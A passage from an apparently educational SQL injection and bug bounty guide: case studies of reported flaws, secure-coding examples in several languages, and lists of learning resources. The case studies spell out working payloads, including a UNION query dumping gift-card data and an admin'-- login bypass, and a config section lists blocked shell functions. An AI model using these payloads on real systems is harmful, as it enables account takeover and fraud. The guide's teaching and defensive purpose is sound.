I did NOT attempt to access other advertisers' data.
I stopped testing after confirming the vulnerability type.

## Remediation
Use parameterized queries for all database operations:

```python
# Bad
query = f"SELECT * FROM campaigns WHERE id = {campaign_id}"

# Good
cursor.execute("SELECT * FROM campaigns WHERE id = %s", (campaign_id,))
```
```

#### Key Learnings

```
✓ API endpoints are valuable targets
✓ Response size analysis is powerful
✓ OAuth-protected endpoints can still be vulnerable
✓ Automated testing scripts save time
✓ Clear impact assessment important
✗ Should have tested more API endpoints
✗ Could have provided more remediation details
```

---

### Case Study 6: Starbucks Gift Card SQLi ($4,000)

**Reporter:** Bug Bounty Hunter  
**Date:** 2019  
**Bounty:** $4,000  
**Severity:** High  

#### Discovery Process

```
Target: starbucks.com/account/card-balance
Feature: Gift card balance checker

Attack Surface:
1. Purchased Starbucks gift card
2. Registered card online
3. Tested balance check feature
```

#### Technical Details

```sql
# Parameter: card_number (POST)
# Type: Error-based SQLi
# Database: MSSQL

# Request:
POST /account/card-balance HTTP/1.1
Host: starbucks.com
Content-Type: application/x-www-form-urlencoded

card_number=1234567890123456

# Injection:
card_number=1234567890123456' AND 1=CONVERT(int,@@version)--

# Response:
Error: Conversion failed when converting the nvarchar value 
'Microsoft SQL Server 2016 (SP2) - 13.0.5026.0' to data type int.

# Exploitation:
card_number=1234567890123456' UNION SELECT card_number,balance,NULL FROM gift_cards--

# Result:
Access to all gift card numbers and balances
```

#### Impact Assessment

```
Financial Data Exposed:
- Gift card numbers
- Current balances
- Transaction history
- Linked user accounts

Potential Attacks:
1. Enumerate valid gift card numbers
2. Check balances of found cards
3. Use cards before legitimate owner
4. Mass balance checking operation

Business Impact:
- Gift card fraud
- Financial losses
- Customer trust damage
- PCI compliance issues
```

#### Ethical Boundaries

```
What Researcher DID:
✓ Tested with own gift card only
✓ Used safe extraction queries (@@version)
✓ Stopped after confirming vulnerability
✓ Reported immediately

What Researcher DID NOT DO:
✗ Extract other users' card numbers
✗ Check balances of other cards
✗ Attempt to use discovered cards
✗ Share vulnerability publicly
```

#### Report Structure

```markdown
## Priority: URGENT

## Title
SQL Injection in Gift Card Balance Checker - Financial Data Exposure

## Severity
High (Financial Impact + PCI Scope)

## Summary
The gift card balance checking feature is vulnerable to SQL injection, 
allowing unauthorized access to all gift card data including numbers, 
balances, and transaction history.

## Business Impact
- Direct financial loss potential
- PCI-DSS compliance violation
- Customer financial data exposure
- Fraud opportunity

## Steps to Reproduce
[Detailed reproduction with own card number only]

## Proof of Concept
[Screenshots showing database version extraction]
[Sample query demonstrating UNION capability]
**Note:** All testing done with my own card (####-####-####-1234)

## Immediate Recommendations
1. Take endpoint offline until patched
2. Audit recent access logs for exploitation
3. Implement prepared statements
4. Add rate limiting to prevent enumeration
5. Consider gift card re-issuance if exploitation detected

## Long-term Recommendations
[Standard SQLi remediation]
```

#### Response Timeline

```
Submitted: 15:00 UTC
Acknowledged: 15:30 UTC (30 minutes!)
"We're treating this as P0. Investigating now."

Triage Call: 16:00 UTC
Conference call with security team to discuss:
- Scope of vulnerability
- Potential exploitation detection
- Immediate mitigation steps

Update: 18:00 UTC
"Endpoint temporarily disabled. Developing patch."

Patch Deployed: 23:00 UTC (8 hours from report)
"Vulnerability patched. Re-enabling endpoint."

Bounty Awarded: Next Day
"$4,000 bounty approved. Thank you for:
- Urgent flagging
- Responsible testing
- Detailed remediation advice
- Quick response to our questions"
```

#### Key Learnings

```
✓ Financial features = urgent priority
✓ Clear business impact = faster response
✓ Testing only own data = ethical
✓ Immediate recommendations helpful
✓ Communication speed matters
✓ PCI scope increases severity
```

---

### Case Study 7: Authentication Bypass via SQLi ($3,500)

**Reporter:** Security Researcher  
**Date:** 2021  
**Bounty:** $3,500  
**Severity:** Critical  

#### Discovery Process

```
Target: portal.company.com/login
Type: Classic Authentication Bypass

Simple Discovery:
1. Tried admin'--
2. Logged in as admin
3. Verified access to admin panel
4. Reported immediately
```

#### Technical Details

```sql
# Vulnerable Code (estimated):
$username = $_POST['username'];
$password = $_POST['password'];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

# Attack:
Username: admin'--
Password: [anything]

# Resulting Query:
SELECT * FROM users WHERE username='admin'--' AND password='[anything]'

# The -- comments out password check!
```

#### Why Critical Severity?

```
Factors:
✓ No authentication required
✓ Direct admin access
✓ One-step exploitation
✓ Affects all admin accounts
✓ No special tools needed
✓ Extremely simple to exploit

Impact:
- Complete admin panel access
- User data access
- System configuration changes
- Potential for further attacks
```

#### Complete Report

```markdown
## Title
Critical: Authentication Bypass via SQL Injection in Admin Login

## CVSS Score
10.0 (Critical)
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

## Summary
The admin login page is vulnerable to SQL injection, allowing complete 
authentication bypass with a simple payload. Any user can access the admin 
panel without valid credentials.

## Steps to Reproduce

### Step 1: Navigate to Login
URL: https://portal.company.com/login

### Step 2: Enter Payload
Username: admin'--
Password: any_value

### Step 3: Submit Form
Click "Login"

### Step 4: Observe Result
Successfully logged in as administrator with full access to:
- User management
- System settings  
- Database administration
- Audit logs

## Proof of Concept

### Request
```http
POST /login HTTP/1.1
Host: portal.company.com
Content-Type: application/x-www-form-urlencoded

username=admin'--&password=test
```

### Response
```http
HTTP/1.1 302 Found
Location: /admin/dashboard
Set-Cookie: session=abc123xyz; Path=/; HttpOnly

Redirects to admin dashboard with full access
```

### Screenshots
1. login_page.png - Login form
2. payload_entered.png - Payload in username field
3. admin_dashboard.png - Successful admin access
4. user_list.png - Access to user management

## Impact Analysis

### Immediate Impact
- Anyone can access admin panel
- No credentials required
- Trivial to exploit
- Could be scripted for automation

### Data at Risk
- All user accounts (500,000+)
- Customer data
- Payment information
- System configurations
- Audit logs

### Attack Scenarios
1. Mass account takeover
2. Data exfiltration
3. System sabotage
4. Backdoor installation
5. Ransomware deployment

## Remediation

### Immediate (Emergency)
```php
// Temporary fix - disable admin login
if (strpos($_POST['username'], "'") !== false || 
    strpos($_POST['username'], "--") !== false) {
    die("Invalid characters detected");
}
```

### Proper Fix
```php
// Use prepared statements
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();

if ($user && password_verify($password, $user['password'])) {
    // Login successful
}
```

### Additional Recommendations
1. Implement account lockout (5 failed attempts)
2. Add CAPTCHA to login
3. Enable 2FA for admin accounts
4. Log all login attempts
5. Audit all authentication code

## Testing Scope
I tested ONLY the login functionality:
- Did NOT access user data
- Did NOT modify any settings
- Did NOT create backdoor accounts
- Did NOT download any information
- Logged out immediately after verification

## Urgency
This vulnerability allows TRIVIAL bypass of ALL authentication.
Recommend immediate patching and security audit.

## Timeline
- Discovered: 2021-06-15 10:00 UTC
- Verified: 2021-06-15 10:05 UTC
- Reported: 2021-06-15 10:15 UTC

## References
- OWASP SQL Injection
- CWE-89: SQL Injection
- CWE-287: Improper Authentication
```

#### Response

```
10:30 UTC (15 minutes later):
"EMERGENCY: Taking admin panel offline immediately."

12:00 UTC:
"Patch deployed. Can you verify the fix?"

12:15 UTC:
"Confirmed fixed. admin'-- no longer works. Prepared statements in place."

Next Day:
"$3,500 bounty approved. Thank you for:
- Immediate reporting
- Not accessing sensitive data
- Detailed remediation advice
- Quick verification of fix"
```

#### Key Learnings

```
✓ Simple vulnerabilities can be critical
✓ Authentication bypass = highest severity
✓ Quick reporting appreciated
✓ Don't overcomplicate exploitation
✓ Clear impact assessment crucial
✗ Should have tested other accounts too
✗ Could have checked for similar issues elsewhere
```

---

### Common Success Patterns

```
What Made These Reports Successful:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

1. Clear Communication
   ✓ Concise title
   ✓ Executive summary
   ✓ Detailed technical info
   ✓ Step-by-step reproduction

2. Ethical Testing
   ✓ Minimal data access
   ✓ Safe payloads for PoC
   ✓ Stopped after confirmation
   ✓ No public disclosure

3. Impact Assessment
   ✓ Business context
   ✓ Data at risk quantified
   ✓ Attack scenarios described
   ✓ Compliance implications noted

4. Actionable Remediation
   ✓ Code examples provided
   ✓ Immediate and long-term fixes
   ✓ Best practices referenced
   ✓ Additional security suggestions

5. Professional Interaction
   ✓ Quick responses
   ✓ Willing to verify fixes
   ✓ Collaborative approach
   ✓ Respectful communication
```

---

## 🔒 Chapter 24: Secure Coding Practices

### Preventing SQL Injection

```
Defense in Depth Strategy:
━━━━━━━━━━━━━━━━━━━━━━━━━
Layer 1: Input Validation
Layer 2: Parameterized Queries
Layer 3: Least Privilege
Layer 4: WAF/IDS
Layer 5: Monitoring & Logging
```

### Primary Defense: Prepared Statements

#### PHP - PDO

```php
// ❌ VULNERABLE
$username = $_POST['username'];
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query);

// ✅ SECURE - PDO with Named Parameters
$username = $_POST['username'];
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $username]);
$user = $stmt->fetch();

// ✅ SECURE - PDO with Positional Parameters
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND email = ?");
$stmt->execute([$username, $email]);
$user = $stmt->fetch();

// ✅ SECURE - Complex Query
$stmt = $pdo->prepare("
    SELECT u.*, p.* 
    FROM users u 
    LEFT JOIN profiles p ON u.id = p.user_id 
    WHERE u.username = :username 
    AND u.status = :status
    ORDER BY u.created_at DESC
    LIMIT :limit
");

$stmt->execute([
    'username' => $_POST['username'],
    'status' => 'active',
    'limit' => 10
]);

$results = $stmt->fetchAll(PDO::FETCH_ASSOC);
```

#### PHP - MySQLi

```php
// ❌ VULNERABLE
$id = $_GET['id'];
$query = "SELECT * FROM products WHERE id = $id";
$result = mysqli_query($conn, $query);

// ✅ SECURE - MySQLi Prepared Statement
$id = $_GET['id'];
$stmt = $conn->prepare("SELECT * FROM products WHERE id = ?");
$stmt->bind_param("i", $id);  // "i" = integer
$stmt->execute();
$result = $stmt->get_result();
$product = $result->fetch_assoc();

// ✅ SECURE - Multiple Parameters
$stmt = $conn->prepare("SELECT * FROM products WHERE category = ? AND price < ?");
$stmt->bind_param("sd", $category, $max_price);  // "s" = string, "d" = double
$stmt->execute();
$result = $stmt->get_result();

// ✅ SECURE - INSERT Statement
$stmt = $conn->prepare("INSERT INTO users (username, email, password) VALUES (?, ?, ?)");
$stmt->bind_param("sss", $username, $email, $password_hash);
$stmt->execute();

// ✅ SECURE - UPDATE Statement
$stmt = $conn->prepare("UPDATE users SET email = ?, updated_at = NOW() WHERE id = ?");
$stmt->bind_param("si", $new_email, $user_id);
$stmt->execute();
```

#### Python - Using Parameters

```python
import mysql.connector

# ❌ VULNERABLE
user_id = request.args.get('id')
query = f"SELECT * FROM users WHERE id = {user_id}"
cursor.execute(query)

# ✅ SECURE - MySQL Connector
user_id = request.args.get('id')
query = "SELECT * FROM users WHERE id = %s"
cursor.execute(query, (user_id,))
user = cursor.fetchone()

# ✅ SECURE - Multiple Parameters
query = "SELECT * FROM products WHERE category = %s AND price < %s"
cursor.execute(query, (category, max_price))
products = cursor.fetchall()

# ✅ SECURE - psycopg2 (PostgreSQL)
import psycopg2

cursor.execute(
    "SELECT * FROM users WHERE username = %s AND email = %s",
    (username, email)
)

# ✅ SECURE - SQLite
import sqlite3

conn = sqlite3.connect('database.db')
cursor = conn.cursor()
cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))

# ✅ SECURE - SQLAlchemy ORM
from sqlalchemy import text

stmt = text("SELECT * FROM users WHERE username = :username")
result = session.execute(stmt, {"username": username})
```

#### Node.js - Parameterized Queries

```javascript
// ❌ VULNERABLE
const userId = req.query.id;
const query = `SELECT * FROM users WHERE id = ${userId}`;
connection.query(query, (error, results) => {
  // ...
});

// ✅ SECURE - MySQL Package
const mysql = require('mysql');
const connection = mysql.createConnection({...});

const userId = req.query.id;
const query = 'SELECT * FROM users WHERE id = ?';
connection.query(query, [userId], (error, results) => {
  if (error) throw error;
  res.json(results);
});

// ✅ SECURE - Multiple Parameters
const query = 'SELECT * FROM products WHERE category = ? AND price < ?';
connection.query(query, [category, maxPrice], (error, results) => {
  // ...
});

// ✅ SECURE - Named Placeholders
const query = 'SELECT * FROM users WHERE username = :username AND email = :email';
connection.query(query, {username: username, email: email}, (error, results) => {
  // ...
});

// ✅ SECURE - PostgreSQL (pg package)
const { Client } = require('pg');
const client = new Client();

const query = 'SELECT * FROM users WHERE id = $1';
client.query(query, [userId], (err, res) => {
  // ...
});

// ✅ SECURE - Sequelize ORM
const { Sequelize, DataTypes } = require('sequelize');

User.findAll({
  where: {
    username: req.body.username,
    status: 'active'
  }
});

// ✅ SECURE - Knex Query Builder
const knex = require('knex')({client: 'mysql'});

knex('users')
  .where('username', username)
  .andWhere('email', email)
  .select('*')
  .then(rows => {
    res.json(rows);
  });
```

#### Java - PreparedStatement

```java
// ❌ VULNERABLE
String userId = request.getParameter("id");
String query = "SELECT * FROM users WHERE id = " + userId;
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(query);

// ✅ SECURE - PreparedStatement
String userId = request.getParameter("id");
String query = "SELECT * FROM users WHERE id = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setInt(1, Integer.parseInt(userId));
ResultSet rs = pstmt.executeQuery();

// ✅ SECURE - Multiple Parameters
String query = "SELECT * FROM products WHERE category = ? AND price < ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, category);
pstmt.setDouble(2, maxPrice);
ResultSet rs = pstmt.executeQuery();

// ✅ SECURE - INSERT
String query = "INSERT INTO users (username, email, password) VALUES (?, ?, ?)";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, username);
pstmt.setString(2, email);
pstmt.setString(3, passwordHash);
pstmt.executeUpdate();

// ✅ SECURE - Hibernate ORM
Session session = sessionFactory.openSession();
Query query = session.createQuery("FROM User WHERE username = :username");
query.setParameter("username", username);
List<User> users = query.list();

// ✅ SECURE - JPA
TypedQuery<User> query = em.createQuery(
    "SELECT u FROM User u WHERE u.username = :username", 
    User.class
);
query.setParameter("username", username);
List<User> users = query.getResultList();
```

#### C# - Parameterized Queries

```csharp
// ❌ VULNERABLE
string userId = Request.QueryString["id"];
string query = "SELECT * FROM Users WHERE Id = " + userId;
SqlCommand cmd = new SqlCommand(query, connection);
SqlDataReader reader = cmd.ExecuteReader();

// ✅ SECURE - SqlCommand with Parameters
string userId = Request.QueryString["id"];
string query = "SELECT * FROM Users WHERE Id = @UserId";
SqlCommand cmd = new SqlCommand(query, connection);
cmd.Parameters.AddWithValue("@UserId", userId);
SqlDataReader reader = cmd.ExecuteReader();

// ✅ SECURE - Multiple Parameters
string query = "SELECT * FROM Products WHERE Category = @Category AND Price < @MaxPrice";
SqlCommand cmd = new SqlCommand(query, connection);
cmd.Parameters.AddWithValue("@Category", category);
cmd.Parameters.AddWithValue("@MaxPrice", maxPrice);
SqlDataReader reader = cmd.ExecuteReader();

// ✅ SECURE - Entity Framework
using (var context = new MyDbContext())
{
    var users = context.Users
        .Where(u => u.Username == username && u.Status == "active")
        .ToList();
}

// ✅ SECURE - Dapper ORM
using (var connection = new SqlConnection(connectionString))
{
    var users = connection.Query<User>(
        "SELECT * FROM Users WHERE Username = @Username",
        new { Username = username }
    );
}
```

### Input Validation

```php
// ✅ Type Validation
$id = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);
if ($id === false || $id === null) {
    die("Invalid ID");
}

$email = filter_input(INPUT_POST, 'email', FILTER_VALIDATE_EMAIL);
if ($email === false) {
    die("Invalid email");
}

// ✅ Whitelist Validation
$allowed_categories = ['electronics', 'books', 'clothing', 'food'];
$category = $_GET['category'];
if (!in_array($category, $allowed_categories, true)) {
    die("Invalid category");
}

// ✅ Regular Expression Validation
$username = $_POST['username'];
if (!preg_match('/^[a-zA-Z0-9_]{3,20}$/', $username)) {
    die("Invalid username format");
}

// ✅ Length Validation
$search = $_GET['search'];
if (strlen($search) > 100) {
    die("Search term too long");
}

// ✅ Range Validation
$age = $_POST['age'];
if ($age < 13 || $age > 120) {
    die("Invalid age range");
}

// ✅ Combined Validation
function validateUsername($username) {
    // Check type
    if (!is_string($username)) {
        return false;
    }
    
    // Check length
    if (strlen($username) < 3 || strlen($username) > 20) {
        return false;
    }
    
    // Check format
    if (!preg_match('/^[a-zA-Z0-9_]+$/', $username)) {
        return false;
    }
    
    return true;
}

if (!validateUsername($_POST['username'])) {
    die("Invalid username");
}
```

### Least Privilege Principle

```sql
-- ❌ BAD: Application using root/admin account
-- App connects as: root / sa / postgres / SYSTEM

-- ✅ GOOD: Create restricted application user

-- MySQL
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password_here';

-- Grant only necessary permissions
GRANT SELECT, INSERT, UPDATE, DELETE ON webapp_db.* TO 'webapp'@'localhost';

-- Revoke dangerous permissions
REVOKE FILE ON *.* FROM 'webapp'@'localhost';
REVOKE SUPER ON *.* FROM 'webapp'@'localhost';
REVOKE PROCESS ON *.* FROM 'webapp'@'localhost';
REVOKE CREATE USER ON *.* FROM 'webapp'@'localhost';

-- Even better: Table-specific permissions
GRANT SELECT ON webapp_db.products TO 'webapp'@'localhost';
GRANT SELECT, INSERT ON webapp_db.orders TO 'webapp'@'localhost';
GRANT SELECT, UPDATE ON webapp_db.users TO 'webapp'@'localhost';

-- PostgreSQL
CREATE USER webapp WITH PASSWORD 'strong_password_here';
GRANT CONNECT ON DATABASE webapp_db TO webapp;
GRANT SELECT, INSERT, UPDATE, DELETE ON ALL TABLES IN SCHEMA public TO webapp;
REVOKE CREATE ON SCHEMA public FROM webapp;

-- MSSQL
CREATE LOGIN webapp WITH PASSWORD = 'strong_password_here';
CREATE USER webapp FOR LOGIN webapp;
ALTER ROLE db_datareader ADD MEMBER webapp;
ALTER ROLE db_datawriter ADD MEMBER webapp;

-- Deny dangerous permissions
DENY CONTROL TO webapp;
DENY ALTER ANY DATABASE TO webapp;
```

### Secure Configuration

```ini
# php.ini
# Disable error display in production
display_errors = Off
display_startup_errors = Off
log_errors = On
error_log = /var/log/php/error.log

# Disable dangerous functions
disable_functions = exec,passthru,shell_exec,system,proc_open,popen

# my.cnf (MySQL)
[mysqld]
# Disable local file loading
local-infile=0

# Disable symbolic links
symbolic-links=0

# Restrict file operations
secure-file-priv="/var/lib/mysql-files"

# postgresql.conf
# Disable trust authentication
# Edit pg_hba.conf:
# local   all   all   md5
# host    all   all   127.0.0.1/32   md5

# Log all statements
log_statement = 'all'
log_duration = on
```

### Error Handling

```php
// ❌ VULNERABLE: Exposing errors
$result = mysqli_query($conn, $query) or die(mysqli_error($conn));

// ✅ SECURE: Generic error messages
try {
    $stmt = $pdo->prepare($query);
    $stmt->execute($params);
    $results = $stmt->fetchAll();
} catch (PDOException $e) {
    // Log detailed error for developers
    error_log("Database error: " . $e->getMessage());
    
    // Show generic message to users
    http_response_code(500);
    echo json_encode(['error' => 'An error occurred. Please try again later.']);
    exit;
}

// ✅ SECURE: Custom error handler
function handleDatabaseError($error) {
    // Log to file
    $logEntry = date('Y-m-d H:i:s') . " - " . $error->getMessage() . "\n";
    file_put_contents('/var/log/app/db_errors.log', $logEntry, FILE_APPEND);
    
    // Send alert for critical errors
    if (stripos($error->getMessage(), 'connection') !== false) {
        mail('admin@example.com', 'Database Connection Error', $error->getMessage());
    }
    
    // Return generic error
    return ['error' => 'Database error occurred', 'code' => 500];
}
```

### Output Encoding

```php
// Even with prepared statements, encode output
$username = htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8');
echo "<p>Welcome, $username!</p>";

// JSON encoding
header('Content-Type: application/json');
echo json_encode($results, JSON_HEX_TAG | JSON_HEX_AMP | JSON_HEX_APOS | JSON_HEX_QUOT);

// URL encoding
$search = urlencode($row['search_term']);
echo "<a href='/search?q=$search'>View Results</a>";
```

### Code Review Checklist

```markdown
## SQL Injection Prevention Checklist

### Code Review
- [ ] All database queries use prepared statements
- [ ] No string concatenation in SQL queries
- [ ] No user input directly in SQL
- [ ] Proper input validation implemented
- [ ] Whitelist validation where possible
- [ ] Type checking on all inputs
- [ ] Length limits on string inputs

### Database Configuration
- [ ] Application uses least-privilege account
- [ ] FILE privilege revoked
- [ ] SUPER/admin privileges revoked
- [ ] Strong database passwords
- [ ] Database not accessible from internet
- [ ] secure_file_priv configured (MySQL)
- [ ] Unnecessary features disabled

### Error Handling
- [ ] Error messages don't expose SQL
- [ ] Generic errors shown to users
- [ ] Detailed errors logged securely
- [ ] display_errors disabled in production
- [ ] Custom error pages configured

### Additional Security
- [ ] WAF deployed and configured
- [ ] Rate limiting implemented
- [ ] Input sanitization in place
- [ ] Output encoding implemented
- [ ] Security headers configured
- [ ] Regular security audits scheduled
- [ ] Automated security testing in CI/CD

### Testing
- [ ] Unit tests for input validation
- [ ] Integration tests for database queries
- [ ] Security tests (SAST/DAST)
- [ ] Penetration testing conducted
- [ ] SQLMap tests passed
- [ ] Manual security review completed
```
## 📚 Chapter 25: Resources & References

### Essential Learning Resources

```
Learning Path:
━━━━━━━━━━━━━━━━━━━━━━━━━━
Beginner → Intermediate → Advanced → Expert
   ↓            ↓             ↓          ↓
 Books      Courses        Labs      Real Hunting
```

### Books & Publications

#### Highly Recommended Books

```
1. "The Web Application Hacker's Handbook" (2nd Edition)
   Authors: Dafydd Stuttard, Marcus Pinto
   Focus: Complete web security including SQLi
   Level: Intermediate to Advanced
   Price: ~$50
   Why: Industry bible, comprehensive coverage
   
2. "SQL Injection Attacks and Defense" (2nd Edition)
   Authors: Justin Clarke, et al.
   Focus: Deep dive into SQLi techniques
   Level: Intermediate to Advanced
   Price: ~$60
   Why: Most detailed SQLi-specific book
   
3. "The Tangled Web"
   Author: Michal Zalewski
   Focus: Browser security and web vulnerabilities
   Level: Advanced
   Price: ~$45
   Why: Understand the web stack deeply
   
4. "Real-World Bug Hunting"
   Author: Peter Yaworski
   Focus: Bug bounty methodology
   Level: Beginner to Intermediate
   Price: ~$30
   Why: Practical bug bounty approach
   
5. "Black Hat Python" (2nd Edition)
   Author: Justin Seitz, Tim Arnold
   Focus: Python for security automation
   Level: Intermediate
   Price: ~$40
   Why: Build custom exploitation tools
```

#### Free Online Books

```
1. OWASP Testing Guide
   URL: https://owasp.org/www-project-web-security-testing-guide/
   Focus: Complete web security testing
   
2. OWASP SQL Injection Prevention Cheat Sheet
   URL: https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
   Focus: Developer-focused prevention
   
3. PortSwigger SQL Injection Cheat Sheet
   URL: https://portswigger.net/web-security/sql-injection/cheat-sheet
   Focus: Database-specific payloads
   
4. HackTricks - SQL Injection
   URL: https://book.hacktricks.xyz/pentesting-web/sql-injection
   Focus: Practical exploitation techniques
```

### Online Courses & Training

#### Paid Courses

```
1. PortSwigger Web Security Academy - SQL Injection
   URL: https://portswigger.net/web-security/sql-injection
   Price: FREE (with Pro features paid)
   Level: Beginner to Advanced
   Duration: ~15 hours
   Labs: 20+ interactive labs
   Certificate: Yes
   ★★★★★ Best free resource

2. Pentester Academy - SQL Injection Bootcamp
   URL: https://www.pentesteracademy.com
   Price: ~$200/year subscription
   Level: Intermediate to Advanced
   Duration: 40+ hours
   Labs: Extensive hands-on
   ★★★★☆ Very comprehensive

3. HackerOne Hacker101 - SQL Injection
   URL: https://www.hacker101.com/
   Price: FREE
   Level: Beginner
   Duration: 3-5 hours
   Labs: Basic to intermediate
   ★★★★☆ Great for beginners

4. Offensive Security - Advanced Web Attacks and Exploitation (AWAE)
   URL: https://www.offensive-security.com/awae-oswe/
   Price: ~$1,600
   Level: Advanced
   Duration: 90 days access
   Certification: OSWE
   ★★★★★ Professional certification

5. eLearnSecurity Web Application Penetration Testing (eWPT)
   URL: https://elearnsecurity.com/product/ewpt-certification/
   Price: ~$400
   Level: Intermediate
   Duration: Varies
   Certification: eWPT
   ★★★★☆ Good certification

6. SANS SEC542: Web App Penetration Testing and Ethical Hacking
   URL: https://www.sans.org/cyber-security-courses/web-app-penetration-testing-ethical-hacking/
   Price: ~$7,500
   Level: Intermediate to Advanced
   Duration: 6 days
   Certification: GWAPT
   ★★★★★ Premium but excellent
```

#### Free Video Courses

```
1. YouTube - "SQL Injection Tutorial" by Computerphile
   URL: https://www.youtube.com/watch?v=ciNHn38EyRc
   Duration: 10 minutes
   Level: Beginner
   
2. YouTube - "SQL Injection Series" by PwnFunction
   URL: https://www.youtube.com/c/PwnFunction
   Duration: Multiple videos
   Level: Beginner to Intermediate
   
3. YouTube - "Bug Bounty Hunting" by STÖK
   URL: https://www.youtube.com/c/STOKfredrik
   Duration: Various
   Level: All levels
   
4. YouTube - "SQL Injection" by The Cyber Mentor
   URL: https://www.youtube.com/c/TheCyberMentor
   Duration: Multiple series
   Level: Beginner to Intermediate

5. Cybrary - SQL Injection Course
   URL: https://www.cybrary.it/
   Price: FREE (Basic) / Paid (Pro)
   Duration: 2-3 hours
   Level: Beginner
```

### Practice Labs & CTFs

#### Vulnerable Applications

```
1. DVWA (Damn Vulnerable Web Application)
   URL: https://github.com/digininja/DVWA
   Setup: Docker / XAMPP
   Difficulty: Easy to Hard
   Focus: Multiple web vulnerabilities
   
   Installation:
   docker pull vulnerables/web-dvwa
   docker run --rm -it -p 80:80 vulnerables/web-dvwa
   
2. bWAPP (Buggy Web Application)
   URL: http://www.iscomplete.com/bwapp/
   Setup: Docker / XAMPP
   Difficulty: Easy to Advanced
   Focus: 100+ vulnerabilities including SQLi
   
3. OWASP WebGoat
   URL: https://owasp.org/www-project-webgoat/
   Setup: Java application
   Difficulty: Beginner to Intermediate
   Focus: Educational with guided lessons
   
   Installation:
   docker run -p 8080:8080 -p 9090:9090 webgoat/goatandwolf
   
4. OWASP Juice Shop
   URL: https://owasp.org/www-project-juice-shop/
   Setup: Node.js / Docker
   Difficulty: Easy to Hard
   Focus: Modern web app vulnerabilities
   
   Installation:
   docker pull bkimminich/juice-shop
   docker run -p 3000:3000 bkimminich/juice-shop
   
5. SQLi-Labs
   URL: https://github.com/Audi-1/sqli-labs
   Setup: PHP + MySQL
   Difficulty: Easy to Advanced
   Focus: 75 SQL injection challenges
   
   Installation:
   git clone https://github.com/Audi-1/sqli-labs.git
   cd sqli-labs
   docker-compose up
   
6. Mutillidae II
   URL: https://github.com/webpwnized/mutillidae
   Setup: Docker / XAMPP
   Difficulty: Beginner to Advanced
   Focus: OWASP Top 10 vulnerabilities
   
7. PentesterLab
   URL: https://pentesterlab.com/
   Price: FREE (Basic) / $20/month (Pro)
   Difficulty: Beginner to Expert
   Focus: Comprehensive web security
   Badges: SQL Injection badge available
   
8. HackTheBox
   URL: https://www.hackthebox.eu/
   Price: FREE (Limited) / $14/month (VIP)
   Difficulty: Easy to Insane
   Focus: Real-world scenarios
   
9. TryHackMe
   URL: https://tryhackme.com/
   Price: FREE (Basic) / $10/month (Premium)
   Difficulty: Easy to Hard
   Focus: Guided learning paths
   Rooms: "SQL Injection", "Web Fundamentals"
```

#### Capture The Flag (CTF) Platforms

```
1. PicoCTF
   URL: https://picoctf.org/
   Price: FREE
   Focus: Educational CTF
   
2. CTFtime
   URL: https://ctftime.org/
   Price: FREE
   Focus: CTF event listings
   
3. OverTheWire
   URL: https://overthewire.org/wargames/
   Price: FREE
   Focus: Wargames including web challenges
   
4. Root Me
   URL: https://www.root-me.org/
   Price: FREE
   Focus: 400+ challenges including SQLi
   
5. HackThisSite
   URL: https://www.hackthissite.org/
   Price: FREE
   Focus: Legal hacking challenges
```

### Tools & Software

#### Essential Tools List

```
RECONNAISSANCE TOOLS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Subfinder      - Subdomain enumeration
Amass          - Network mapping
Assetfinder    - Asset discovery
GAU            - Get all URLs
Gospider       - Web crawler
Katana         - Next-gen crawler
Waybackurls    - Archive URLs
ParamSpider    - Parameter discovery
Arjun          - HTTP parameter discovery

PROXY & INTERCEPTION
━━━━━━━━━━━━━━━━━━━━━━━━━━
Burp Suite     - Web security testing (Essential!)
OWASP ZAP      - Free alternative to Burp
mitmproxy      - Command-line proxy
Fiddler        - Windows HTTP debugger

EXPLOITATION TOOLS
━━━━━━━━━━━━━━━━━━━━━━━━━━
SQLMap         - Automated SQLi tool (Must-have!)
SQLNinja       - MSSQL-specific
Havij          - GUI-based SQLi tool
jSQL Injection - Cross-platform GUI tool
NoSQLMap       - NoSQL injection
Ghauri         - Modern SQLi tool

SCANNING TOOLS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Nikto          - Web server scanner
Nuclei         - Template-based scanner
OWASP ZAP      - Automated scanner
Arachni        - Web application scanner
W3af           - Web attack framework

UTILITIES
━━━━━━━━━━━━━━━━━━━━━━━━━━
httpx          - HTTP toolkit
curl           - Command-line HTTP client
jq             - JSON processor
xmllint        - XML processor
base64         - Encoding/decoding
Cyberchef      - Data transformation
Postman        - API testing
```

#### Installation Guide

```bash
# Kali Linux (Recommended for beginners)
# Most tools pre-installed

# Ubuntu/Debian - Install essential tools
sudo apt update
sudo apt install -y \
    git python3 python3-pip \
    curl wget \
    nmap nikto \
    sqlmap \
    burpsuite \
    zaproxy

# Install Go tools
go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
go install -v github.com/tomnomnom/assetfinder@latest
go install -v github.com/lc/gau/v2/cmd/gau@latest
go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
go install -v github.com/projectdiscovery/katana/cmd/katana@latest
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest

# Install Python tools
pip3 install sqlmap
pip3 install paramspider
pip3 install arjun

# SQLMap (latest version)
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --update

# Burp Suite Community
# Download from: https://portswigger.net/burp/communitydownload

